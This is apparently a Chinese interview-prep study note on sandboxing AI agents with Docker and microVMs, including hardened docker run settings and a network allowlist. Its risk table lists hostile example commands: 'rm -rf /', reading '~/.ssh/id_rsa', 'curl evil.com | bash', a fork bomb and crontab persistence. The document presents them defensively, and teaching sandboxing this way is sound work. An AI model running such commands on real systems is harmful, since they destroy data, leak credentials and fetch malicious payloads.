






# 05 - Agentic Sandbox

> [!note]
> Agent 会执行**任意代码**(bash/edit/write),必须有沙盒隔离。
> **核心矛盾**:Agent 时代的代码 = LLM 生成 + 用户输入 + 外部数据三方合成 → **不可信代码**。
> **Docker 是最实用的方案** —— 大部分场景够了。
> 高延迟场景才需要 microVM / WASM 等专门优化(了解即可)。

## 1. 为什么需要沙盒(根本原因:信任转移)

### 1.1 范式切换

```
传统软件:                       Agent 时代:
   开发者写代码                     LLM 生成代码 + 执行命令
   ↓                                ↓
   代码可信                         代码不可信
   ↓                                ↓
   直接跑在主机                     必须隔离在沙盒
```

**关键命题**:Agent 执行的代码来自三方合成,**没有任何一方天然可信**:

| 来源     | 例子                           | 风险                       |
| -------- | ------------------------------ | -------------------------- |
| LLM 生成 | `bash "rm -rf /tmp/cache"`     | 生成错命令、被诱导         |
| 用户输入 | `prompt: "帮我清理一下数据库"` | 误操作 / 故意攻击          |
| 外部数据 | 网页内容、API 返回             | prompt injection 劫持 LLM |

### 1.2 风险分类(7 类不可逆伤害)

| 类别     | 典型命令                          | 后果               |
| -------- | --------------------------------- | ------------------ |
| 文件破坏 | `rm -rf /`                        | 系统崩溃,不可逆    |
| 数据泄露 | `cat ~/.ssh/id_rsa`               | 凭证外泄,持久后患  |
| 网络攻击 | `curl evil.com \| bash`           | 拉恶意载荷         |
| 资源耗尽 | `:(){ :|:& };:` (fork bomb)       | DoS,机器卡死       |
| 权限提升 | `sudo su` / setuid 漏洞           | 逃逸到 root        |
| 供应链   | `npm install malicious-pkg`       | 后门随依赖进来     |
| 持久后门 | `crontab -e` 写定时任务           | 长期 C2 回连       |

### 1.3 三个不可逆特性

为什么沙盒**必须事前隔离**,不能事后审计:

1. **不可逆**:文件删了就是删了,密钥泄露就已经在网上了
2. **不可观测**:人眼根本跟不上 LLM 的执行速度,监控日志只能事后追责
3. **不可信任**:即使你 100% 信任模型,prompt injection 仍能让它被劫持

> [!warning] 面试金句
> Agent 时代码 = LLM 生成 + 用户输入 + 外部数据三方合成的**不可信代码**,且伤害**不可逆**。沙盒不是 QA,是从"开发者信任"到"零信任执行"的范式切换。

## 2. 关键澄清:沙盒 ≠ 验证环境

这是面试容易翻车的概念盲区。两种"沙盒"完全是不同东西。

| 维度   | CI/CD 测试沙盒            | Agentic Sandbox                |
| ------ | ------------------------- | ------------------------------ |
| 目的   | 代码先验证,通过再上生产   | Agent 干活的工作台本身         |
| 时机   | 部署前                    | 执行时                         |
| 产物   | 通过/不通过信号           | 修改后的代码 / 跑出的数据      |
| 用完   | 丢弃                      | 产物输出,环境销毁              |
| 类比   | 草稿纸(誊到答卷)          | 通风柜(反应就在里面发生)       |



> [!note]
> Agent 沙盒**不是"先验证再上生产"**——它就是 Agent 干活的工作台本身。隔离不是为了 QA,是因为 Agent 执行的代码不可信。

## 3. 沙盒方案谱系

```mermaid
%%{init: {"theme":"base", "themeVariables": {
  "fontSize":"16px",
  "fontFamily":"ui-sans-serif, system-ui, -apple-system, 'Segoe UI', Roboto, sans-serif",
  "background":"#ffffff",
  "primaryColor":"#eff6ff",
  "primaryBorderColor":"#60a5fa",
  "primaryTextColor":"#0f172a",
  "lineColor":"#94a3b8"
}}}%%
flowchart LR
    L1["<b>① 目录限制</b><br/>cwd only"] --> L2["<b>② 进程隔离</b><br/>setuid"]
    L2 --> L3["<b>③ Docker</b><br/>容器隔离 ★"]
    L3 --> L4["<b>④ Firecracker</b><br/>microVM"]
    L4 --> L5["<b>⑤ gVisor</b><br/>用户态 kernel"]
    L5 --> L6["<b>⑥ WASM</b><br/>Wasmtime"]
    L6 --> L7["<b>⑦ 真 VM</b><br/>KVM/QEMU"]

    class L3 core
    class L1,L2,L4,L5,L6,L7 mech

    classDef core fill:#fef3c7,stroke:#d97706,stroke-width:3px,color:#78350f
    classDef mech fill:#dbeafe,stroke:#3b82f6,stroke-width:2px,color:#1e3a8a
```



| 方案           | 隔离强度 | 启动延迟  | 适用场景                  |
| -------------- | -------- | --------- | ------------------------- |
| 目录限制       | 弱       | 无        | 简单 demo,网络仍开放     |
| 进程隔离       | 中       | 极低      | 同 kernel,dropped privs   |
| **Docker**     | 中-强    | 几百 ms   | **生产 Agent 沙盒首选**  |
| Firecracker    | 很强     | < 100 ms  | AWS Lambda / Fly.io       |
| gVisor         | 很强     | 中        | Google Cloud Run          |
| WASM           | 强       | < 10 ms   | 生态有限,适合轻量任务    |
| 真 VM (KVM)    | 最强     | 几秒      | 高安全 / 多租户硬隔离     |

> [!note]
> Docker 共享主机 kernel → 容器本质是主机的一个进程套了一层隔离。VM 是完整模拟一台机器,独立 kernel → 隔离更强但启动慢、占用大。

## 4. Docker 是什么

### 4.1 一句话定义

> Docker = **把程序和它所有依赖打包成一个标准化"集装箱"**,这个箱子在任何机器上都能跑。

Docker 的 logo 就是一个集装箱——这不是巧合。

### 4.2 解决的核心问题



### 4.3 Docker 做的两件事

| 概念            | 作用                                       | 类比                |
| --------------- | ------------------------------------------ | ------------------- |
| **Image 镜像**  | 代码 + 依赖 + 配置 打包成不可变文件        | `.zip` 但带完整环境 |
| **Container 容器** | 镜像启动起来的实例,有独立 fs/网络/进程空间 | 程序运行起来        |

底层技术:

- **namespace** → 让容器"看不见"主机的进程/网络/文件系统(隔离视图)
- **cgroup** → 限制容器能用多少 CPU/内存/进程数(资源限制)
- **联合文件系统** → 镜像分层叠加(节省存储)

### 4.4 Docker vs 虚拟机

| 维度     | 虚拟机 (VM)            | Docker 容器              |
| -------- | ---------------------- | ------------------------ |
| OS       | 每个 VM 装一整套 OS    | 所有容器共享主机 kernel  |
| 启动     | 几十秒                 | 几百毫秒                 |
| 占用     | 几 GB / 个             | 几十 MB / 个             |
| 隔离     | 很强(独立 kernel)      | 中等(共享 kernel)        |
| 适合     | 传统服务、多租户硬隔离 | 微服务、Agent 沙盒、CI   |

> [!warning] Docker 隔离的安全边界
> Docker 共享主机 kernel → kernel 漏洞理论能逃逸。对大多数 Agent 场景够用,但**高安全场景**(多租户、不信任代码)应该上 Firecracker microVM 或 gVisor。

## 5. Docker 沙盒实务

### 5.1 最小 Dockerfile

```dockerfile
FROM node:20-slim

# 创建非 root 用户
RUN useradd -m -s /bin/bash agent
USER agent
WORKDIR /home/agent/workspace

# 复制 PuinClaw 代码
COPY --chown=agent:agent . /home/agent/pi-mono
WORKDIR /home/agent/pi-mono

# 安装依赖(只读)
RUN npm ci --production

# 入口
CMD ["node", "packages/mom/dist/main.js"]
```

### 5.2 安全 docker run(必背配置)

```bash
docker run \
  --rm \
  --read-only \                              # 文件系统只读
  --tmpfs /tmp \                             # /tmp 临时可写
  -v $(pwd)/workspace:/home/agent/workspace \ # 仅 workspace 持久
  --network=none \                           # 默认无网络
  -e ANTHROPIC_API_KEY=$KEY \                # 只传必要 env
  --memory=512m \                            # 内存限制
  --cpus=1 \                                 # CPU 限制
  --pids-limit=100 \                         # 进程数限制
  --cap-drop=ALL \                           # 丢弃所有 capabilities
  --security-opt=no-new-privileges \         # 禁止提权
  puinclaw-sandbox
```

### 5.3 关键安全配置逐项

| 配置                              | 作用                            | 防御目标                |
| --------------------------------- | ------------------------------- | ----------------------- |
| `--rm`                            | 退出即删,不残留状态             | 数据残留                |
| `--read-only`                     | rootfs 只读                     | 文件破坏                |
| `--tmpfs /tmp`                    | /tmp 临时写区                   | 临时文件需求            |
| `--network=none`                  | 默认无网络                      | 数据泄露 / 网络攻击     |
| `--memory` / `--cpus`             | 资源限制                        | DoS / 挖矿              |
| `--pids-limit`                    | 进程数限制                      | fork bomb               |
| `--cap-drop=ALL`                  | 丢弃所有 capabilities           | 权限提升                |
| `--security-opt=no-new-privileges`| 禁止 setuid 提权                | setuid 逃逸             |
| 非 root `USER`                    | 容器内非 root                   | 减小破坏半径            |

## 6. 网络策略

### 6.1 核心矛盾

Agent 经常**需要网络**(npm install / git pull / API 调用),但又**不能完全开放**(防数据泄露 + 恶意下载)。

### 6.2 白名单模式



### 6.3 实现方案

| 实现                          | 特点                            |
| ----------------------------- | ------------------------------- |
| Docker `--network=none` + HTTP proxy | 最简单,代理程序做白名单    |
| iptables 规则                 | 系统级拦截,但规则维护麻烦      |
| eBPF 过滤 (Cilium)            | 高性能,可编程                   |

## 7. 最小示例:PuinClaw 接入沙盒

### 7.1 改造 bash 工具

```
原来:PuinClaw 直接 spawn bash
改造:PuinClaw 调 docker exec sandbox bash -c "..."
```

```typescript
// 伪代码
const result = await exec(
  `docker exec ${containerId} bash -c "${cmd}"`
);
```

### 7.2 完整流程



### 7.3 多 goal 并发隔离



> [!note]
> 每个 goal 一个独立容器 + 独立 workspace volume。失败可单独清理,互不干扰。

## 8. 何时需要专门优化

### 8.1 问题:Docker 启动延迟



### 8.2 方案对比

| 方案              | 启动延迟  | 适用                       |
| ----------------- | --------- | -------------------------- |
| Docker 池(预热)   | ~0 (复用) | 一般项目即可               |
| Firecracker microVM | < 100 ms  | 高并发、强隔离             |
| gVisor 常驻       | 中        | Google 生态                |
| WASM (Wasmtime)   | < 10 ms   | 轻量任务、生态有限         |

> [!note]
> 一般项目用 Docker 即可,**延迟瓶颈**才上 microVM / WASM。

## 9. 面试要点

### 9.1 必答清单

| Q                           | A 关键点                                                                 |
| --------------------------- | ------------------------------------------------------------------------ |
| 为什么 agent 需要沙盒?      | 代码不可信(LLM 生成 + 用户输入 + 外部数据),伤害不可逆 → 必须事前隔离    |
| Docker 沙盒的关键配置?      | `--read-only` + `--tmpfs /tmp` + `--network=none` + 资源限制 + `--cap-drop=ALL` + `no-new-privileges` + 非 root |
| Docker vs 虚拟机怎么选?     | Docker 共享 kernel,中等隔离,启动快;VM 独立 kernel,最强隔离但重          |
| Agent 需要网络怎么办?       | 白名单模式——只放行特定域名(npmjs/github/API),其他全 deny                |
| 多 goal 怎么隔离?           | 每个 goal 一个独立容器 + 独立 workspace volume                            |
| Docker 在国内能用吗?        | 镜像分发是痛点,用阿里云加速器 / 自建代理 / 离线搬运                       |

### 9.2 加分点

- 知道 Firecracker / gVisor / WASM 等高级方案
- 提到 `capability drop` 是核心
- 提到 `--security-opt=no-new-privileges` 防 setuid 提权
- 提到供应链攻击(npm 包里藏后门)
- 提到资源限制 `--pids-limit` 防 fork bomb
- 提到"信任转移"——从开发者信任到零信任执行
- 提到 prompt injection 让"信任模型"也不安全

## 10. QA

> [!note]
> 这一节是学习过程中**真实的问答脉络**——记录卡点、误解、深挖,而不是面试题模拟。面试要点的清单式速查在第 9 节。

### Q1:沙箱就是给新代码运行、与生产隔离的虚拟环境吧?完成代码验证?

**A:** 偏了。这里混淆了两种沙盒:

- **CI/CD 测试沙盒**:代码先验证,通过再上生产(草稿纸模式)
- **Agentic Sandbox**:Agent 干活的工作台本身(通风柜模式)

Agent 沙盒**不是"先验证再上生产"的过渡环境**,它就是 Agent 干活的地方。隔离不是为了 QA,是因为执行的代码不可信。产物通过受控 volume 输出,命令永远不离开沙盒。

### Q2:写代码就写代码,为什么还需要 sandbox?反正这代码也不需要立即就运行

**A:** 心智模型错了。Agent 不只是"写代码",Agent 还会**执行命令**:

```
Agent 实际干的事:
  1. read auth.py          ← 读文件(无害)
  2. edit auth.py          ← 改文件(写代码)
  3. bash: pytest tests/   ← ★ 跑测试(真执行)
  4. bash: npm i json5@x   ← ★ 装依赖(真执行)
  5. bash: git push        ← ★ 推代码(真执行)
```

**"写代码"和"执行代码"是两件事,Agent 两件都做。** 写代码本身不需要沙盒,但 bash 工具调用必须沙盒。Agent 之所以是 agent 而不是 Copilot,**正是因为它能执行**——如果只让它写不让它跑,它就退化成补全工具了。

> Agent = **能执行命令**的 LLM。沙盒防护的不是它"写"出来的代码,是它"跑"的命令。

### Q3:什么是 Docker?

**A:** Docker 是**容器化**工具——通过 Linux namespaces 做隔离、cgroups 做资源限制,把应用和依赖打包成一个**可移植、轻量、隔离**的盒子。

解决"在我电脑上能跑,在你电脑上不能跑"的问题:把代码 + 依赖 + OS 层打包成一个 Image,这个 Image 在 Mac / Linux / Cloud 都跑出一致行为。

容器本质是主机的一个进程,套了一层隔离;虚拟机是完整模拟一台机器。所以 Docker 比 VM 轻(启动几百 ms vs 几十秒),但隔离强度中等(共享 kernel)。

天生适合做 Agent 沙盒——容器隔离的几个维度(文件/网络/进程/权限)正好对应 Agent 安全需要的几个方面。

### Q4:Docker 在中国大陆不友好?

**A:** 是的,但主要矛盾不是 Docker 本身,是**镜像分发**:

- Docker Hub 在境外且 2024 年起被大规模封锁
- 公共加速器寿命短(中科大、上海交大等关停)
- ghcr.io / gcr.io 基本不通

实务做法分两层(必须分开处理):

1. **构建期**(pull base image):配 `/etc/docker/daemon.json` 用阿里云/腾讯云加速器,或离线 `docker save/load` 搬运。

    ```json
    { "registry-mirrors": ["https://xxxx.mirror.aliyuncs.com"] }
    ```

2. **运行期**(容器内 `npm install` / `pip install`):换国内源。

    ```dockerfile
    RUN npm config set registry https://registry.npmmirror.com
    RUN pip config set global.index-url https://pypi.tuna.tsinghua.edu.cn/simple
    ```

⚠️ 加速器清单是**动态变化的**,今天能用的明天可能关,需要定期查最新可用清单。

### Q5:Docker 隔离够安全吗?

**A:** 对大多数场景够,但因为共享 kernel,**kernel 漏洞理论能逃逸**。

- 一般 Agent 任务:用 Docker(中等隔离 + 资源限制就够)
- 高安全场景(多租户、不信任代码):上 Firecracker microVM(独立 kernel)或 gVisor(用户态 kernel,系统调用拦截)

> [!warning] 不要只看隔离强度
> 还要考虑**性能**和**运维成本**。Docker 启动 500 ms / 占用 50 MB;Firecracker 启动 100 ms / 占用 100 MB 但运维复杂。一般项目 Docker 是最优解。

## 11. 关键资料

| 资料                                                         | 内容                  |
| ------------------------------------------------------------ | --------------------- |
| [Anthropic:Built Codebase Engineering Runbook](https://www.anthropic.com/engineering/built-codebase-engineering-runbook) | 沙盒指南              |
| [Docker security](https://docs.docker.com/engine/security/)  | 官方安全文档          |
| [Firecracker](https://firecracker-microvm.github.io/)        | microVM               |
| [gVisor](https://gvisor.dev/)                                | 用户态 kernel         |
| [OWASP Docker Top 10](https://owasp.org/www-project-docker-top-10/) | 常见漏洞              |
| [Docker Hub 镜像加速器列表](https://gist.github.com/y0ngb1n/) | 国内可用加速器(动态)  |

## 12. PuinClaw 实操清单

- [ ] 写 Dockerfile(slim + 非 root)
- [ ] 写 docker run 安全配置(`--read-only` + `--cap-drop` 等)
- [ ] 改造 bash 工具走 `docker exec`
- [ ] 设计 workspace volume 挂载
- [ ] 写网络白名单(proxy 或 iptables)
- [ ] 配置国内 npm/pip 源(中国大陆必需)
- [ ] 测试:故意 `rm -rf /` 看是否拦住
- [ ] 测试:故意 `curl` 外网看是否拦住
- [ ] 测试:故意 fork bomb 看资源限制是否生效

_Generated for PuinClaw 面试准备, 2026-06-25_
